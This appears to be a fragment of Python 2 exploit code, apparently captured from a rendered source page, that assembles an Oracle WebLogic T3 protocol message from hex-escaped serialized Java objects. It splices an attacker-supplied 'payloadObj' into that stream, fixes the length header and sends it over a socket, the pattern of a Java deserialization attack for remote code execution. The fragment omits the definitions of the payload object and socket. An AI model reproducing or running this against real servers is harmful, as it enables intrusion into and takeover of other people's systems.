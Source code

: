 ```plain
payload='\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'
print 'sending payload...'
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

sock.send(payload)
```
